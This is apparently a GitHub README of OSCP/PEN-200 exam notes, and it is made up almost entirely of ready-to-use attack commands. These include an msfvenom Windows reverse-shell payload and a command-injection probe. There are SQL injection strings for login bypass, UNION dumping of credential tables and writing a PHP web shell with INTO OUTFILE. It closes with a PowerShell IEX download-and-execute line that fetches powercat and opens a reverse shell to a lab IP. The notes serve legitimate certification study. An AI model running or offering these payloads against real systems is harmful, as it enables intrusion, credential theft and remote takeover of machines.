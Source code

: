 # OSCP-Notes
Cheatsheet/Notes from PEN-200 Learning Platform for the OSCP Exam

Payload Generator msfvenom:

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
Transfer File From Windows To Linux via ssh:
    1.on linux 2. on windows:
    
        1. sudo systemctl start ssh
        2. scp C:\Users\offsec\Desktop\malware.exe shaleph@192.168.45.162:/home/shaleph/OSCP 
        
file metadata analyzer:

    exiftool -a -u <file.name>
  
Web App Pentest

    Command Injection
      Check if CMD or PowerShell we have:
        (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
      PowerCat for Reverse shell. first copy to local dir: 
        cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .


  SQLi
    MySQL:
      connect to mysql remotely:
      
        mysql -u <user> -h <ip> -P 3306 -p;
        
  commands after connection:
      
        show databases;
        select version();
        show tables in mysql;
        select * from mysql.user;
        select * from mysql.user where user = 'username';
        
  MSSQL:
      connect:
      
        impacket-mssqlclient <user>:<pass>@<ip> -windows-auth
  commnads:
  
        select @@version;
        select name from sys.databases;
        select * from <db_name>.information_schema.tables;
        select * from master.dbo.sysusers;

  Injections: 
  
      offsec' OR 1=1 -- //
      if above successful:
            ' or 1=1 in (select @@version) -- //
            
  UNION injections:
      first get number of columns (increase number by 1):
      
        ' ORDER BY 1-- //
        ' UNION SELECT null, null, database(), user(), @@version  -- //
        ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
      shell with Union
        ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

  Time Based Blind SQL:
      ' AND IF (1=1, sleep(3),'false') -- //



Download and execute in PowerShell:
  IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
